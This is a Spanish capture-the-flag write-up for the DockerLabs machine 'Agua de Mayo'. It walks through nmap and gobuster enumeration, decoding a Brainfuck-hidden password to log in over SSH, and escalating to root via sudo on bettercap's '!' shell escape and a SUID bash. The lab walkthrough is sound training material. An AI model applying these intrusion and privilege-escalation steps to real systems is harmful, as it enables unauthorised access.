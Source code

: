 #Writeups #Easy #DockerLabs

![dockerLabs.png](assets/dockerLabs.png)

Empezamos con un escaneo de todos los puertos:

```bash 
❯ sudo nmap -sS -Pn -p- --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-29 17:21 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.32 seconds

```

Escaneamos mas profundamente los dos servicios encontrados:

```bash
❯ sudo nmap -p22,80 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-29 17:22 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000024s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 75:ec:4d:36:12:93:58:82:7b:62:e3:52:91:70:83:70 (ECDSA)
|_  256 8f:d8:0f:2c:4b:3e:2b:d7:3c:a2:83:d3:6d:3f:76:aa (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.91 seconds
```

Usamos gobuster para ver directorios que hayan escondidos :

```bash
❯ gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,js,py,xml
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              py,xml,php,html,txt,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/images               (Status: 301) [Size: 309] [--> http://172.17.0.2/images/]
/index.html           (Status: 200) [Size: 11142]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished
===============================================================
```

Encontramos un listado donde vemos un archivo .jpg vamos a descargarlo y ver si encontramos a los metadatos

![listimageagua.png](assets/listimageagua.png)

No encontramos nada:

```bash
❯ steghide --extract -sf agua_ssh.jpg
Anotar salvoconducto: 
steghide: �no pude extraer ning�n dato con ese salvoconducto!
```

Viendo el código fuente del apache, tiramos hasta abajo del todo y vemos escondido un comentario muy raro:

![sourcecodeagua.png](assets/sourcecodeagua.png)

Lo busco tal cual en google y me sale que es una codificación en brainFuck

![googlebrainfuck.png](assets/googlebrainfuck.png)

ponemos el código quitando las etiquetas de comentario de html y encontramos esto:

![decodebrainfuck.png](assets/decodebrainfuck.png)

**bebeaguaqueessano**, esto podría ser una contraseña, así que se me ocurre iniciar sesión con esta contraseña y el usuario agua ya que veo demasiadas veces referencias al agua:

```bash
❯ ssh agua@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:EZNhR2ojYOvInwAg+dpLntRab/b7eRvr60vq3sn7hH8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
agua@172.17.0.2's password: 
Linux 8b3e470ee530 6.5.0-13parrot1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.13-1parrot1 (2023-12-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 14 17:41:58 2024 from 172.17.0.1
agua@8b3e470ee530:~$
```

Enumeramos permisos Sudo:

```bash
agua@8b3e470ee530:~$ sudo -l
Matching Defaults entries for agua on 8b3e470ee530:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User agua may run the following commands on 8b3e470ee530:
    (root) NOPASSWD: /usr/bin/bettercap
```

Encontramos permisos de Sudo en bettercap, aquí entro a bettercap y en help vemos que podemos ejecutar comandos de consola con ! :

```bash
agua@8b3e470ee530:~$ sudo bettercap
bettercap v2.32.0 (built for linux amd64 with go1.19.8) [type 'help' for a list of commands]

172.17.0.0/16 > 172.17.0.2  » [15:43:00] [sys.log] [war] exec: "ip": executable file not found in $PATH
172.17.0.0/16 > 172.17.0.2  » ?

           help MODULE : List available commands or show module specific help if no module name is provided.
                active : Show information about active modules.
                  quit : Close the session and exit.
         sleep SECONDS : Sleep for the given amount of seconds.
              get NAME : Get the value of variable NAME, use * alone for all, or NAME* as a wildcard.
        set NAME VALUE : Set the VALUE of variable NAME.
  read VARIABLE PROMPT : Show a PROMPT to ask the user for input that will be saved inside VARIABLE.
                 clear : Clear the screen.
        include CAPLET : Load and run this caplet in the current session.
             ! COMMAND : Execute a shell command and print its output.
        alias MAC NAME : Assign an alias to a given endpoint given its MAC address.

Modules

      any.proxy > not running
       api.rest > not running
      arp.spoof > not running
      ble.recon > not running
             c2 > not running
        caplets > not running
    dhcp6.spoof > not running
      dns.spoof > not running
  events.stream > running
            gps > not running
            hid > not running
     http.proxy > not running
    http.server > not running
    https.proxy > not running
   https.server > not running
    mac.changer > not running
    mdns.server > not running
   mysql.server > not running
      ndp.spoof > not running
      net.probe > not running
      net.recon > not running
      net.sniff > not running
   packet.proxy > not running
       syn.scan > not running
      tcp.proxy > not running
         ticker > not running
             ui > not running
         update > not running
           wifi > not running
            wol > not running

172.17.0.0/16 > 172.17.0.2  » !whoami
root
172.17.0.0/16 > 172.17.0.2  »  
```

los podemos ejecutar como root, así que doy permisos suid a /bin/bash para salir de bettercap, abrir una consola con privilegios y obtener root:

![rootAguaDeMayo.png](assets/rootAguaDeMayo.png)
